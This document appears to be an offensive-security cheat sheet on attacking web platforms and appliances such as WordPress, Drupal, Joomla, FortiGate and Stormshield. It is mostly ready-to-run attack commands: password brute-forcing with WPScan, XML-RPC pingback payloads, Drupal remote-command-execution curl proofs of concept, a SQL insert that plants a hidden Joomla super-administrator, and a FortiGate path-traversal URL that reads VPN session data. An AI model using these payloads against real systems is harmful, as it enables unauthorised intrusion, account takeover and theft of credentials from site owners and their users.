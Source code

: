 # Techno Specific

## **CMS**

### Tools

```sh
# cmsmap
git clone https://github.com/Dionach/CMSmap && cd CMSmap && pip3 install .
cmsmap.py <target> -o cmsmap.log

# wig
git clone https://github.com/jekyc/wig.git && cd wig && python3 setup.py install
Wig.py <target> -w wig.log 

# wpscan (need API key)
WPScan -v --proxy socks5://127.0.0.1:9090 -e u1-100,vp,vt --passwords rockyou.txt --api-token <API_key> --url <target>

# wpseku
git clone https://github.com/m4ll0k/WPSeku.git && cd WPSeku && pip install -r requirements.txt
python wpseku.py --target <target>

# droopescan
pip install droopescan
droopescan scan drupal -t 32 -u <target> [-U list_of_urls.txt]

# joomscan
joomscan -u <target>
```

---

### Wordpress

Find version

* into xml via website.com/rss
* Html source code
* CMSmap or WPScan

**XMLrpc**

List methods

```sh
POST /xmlrpc.php HTTP/1.1
Host: <target>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

If there is pingback, try :

```bash
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<ip_pingback>:<port></string></value>
</param><param><value><string>http://<ip_pingback>:<port>/toto</string>
</value></param></params>
</methodCall>
```

---

### Drupal

- intruder from 0 to 500 on /node/$

```bash
/imce
```

POC1 drupal 8

```bash
  curl -k -i '<target>/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

POC2 drupal 8

```bash
curl -k -i '<target>/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

POC3 drupal 7

```bash
 curl -k -s '<target>/drupal-7.55/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=uname+-a' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id
```

---

### Joomla

Joomla 1.5

```bash
user:md5_gen(1)MD5$SALT
```

* [https://www.exploit-db.com/exploits/6234](https://www.exploit-db.com/exploits/6234)
* [http://www.passwordtool.hu/joomla-password-hash-generator-salt-key](http://www.passwordtool.hu/joomla-password-hash-generator-salt-key)

```bash
creer new users INSERT INTO jos_users (name, username, password, usertype, gid, params) VALUES ('toto', 'toto', 'fcba92f4dd6b902f8a66054b8327ae6b:F2sVBzlFOUl51D3HtRZ0tionaJQGQqB', 'Super Administrator', 25, ''); INSERT INTO jos_core_acl_aro VALUES (NULL, 'users', LAST_INSERT_ID(), 0, 'toto', 0); INSERT INTO jos_core_acl_groups_aro_map VALUES (25, '', LAST_INSERT_ID());
```

---

## Moodle

- [https://github.com/inc0d3/moodlescan](https://github.com/inc0d3/moodlescan)

```bash
# sudo apt update && sudo apt install python3 python3-pip && cd moodlescan && pip3 install -r requirements.txt
python3 moodlescan.py -k -u <URL> 
```


---

## **Reactjs**

- [React Developer Tools](https://addons.mozilla.org/fr/firefox/addon/react-devtools/) (edit props/state/hooks values)

**Security Testers**: Inject JavaScript and JSON wherever you can and see what happens. 

**Developers**: Don’t ever `useeval()` or `dangerouslySetInnerHTML`. Avoid parsing user-supplied JSON.

---


## **Angularjs**

Check the bypassSecurityTrustX / innerHTML function

```bash
bypassSecurityTrustHtml
bypassSecurityTrustScript
bypassSecurityTrustStyle
bypassSecurityTrustUrl
bypassSecurityTrustResourceUrl
```

---

## **ckfinder**

```bash
ckfinder/ckfinder.html
```

---

## **Git**

- [GitTools Dumper](https://github.com/internetwache/GitTools/tree/master/Dumper)
- [git-dumper](https://github.com/arthaud/git-dumper)

```bash
run script post-merge https://docs.gitlab.com/ee/administration/custom_hooks.html  .git/hooks
```

---

## **Stormshield**

- [test for default password](https://github.com/jenaye/netasq-1300)

[Stormshield Documentation](https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI_Serverd_Commands_reference_Guide_v3/Introduction.htm)
```bash
# Check default password : \(UpdatePasswd=1 if factory password, 0 if the password already have been changed\) 
CHPWD 101 code=00a01000 msg="Begin" format="section" \[Result\] UpdatePasswd=0
```

---

## **Fortigate**

- [CVE-2018-13379](https://www.exploit-db.com/exploits/47288)

```sh
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

---

## **Dana**

```bash
https://XXXX/dana-na/setup/psalinstall.cgi
```

## **SSL / TLS**

* [testssh.sh](https://github.com/drwetter/testssl.sh)

Openssl

```bash
openssl s_client -cipher BEAST -connect <target>:443
openssl s_client -connect <target>:443 -ssl3

# Expiration date
openssl s_client -connect <target>:443 | openssl x509 -noout -dates
```

Check Heartbleed

```bash
cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
```

Check lucky13

```bash
openssl s_client -cipher DES-CBC3-SHA -connect xx.fr:443
```

---

## **Android**

Apktool

```bash
apktool d app_name.apk
```

Extract sensitive info

```bash
grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/
```


## **Manual upload**

```bash
curl -i -X PUT -H "Content-Type: application/xml; charset=utf-8" -d @"/tmp/some-file.xml" http://<target>/newpage
```

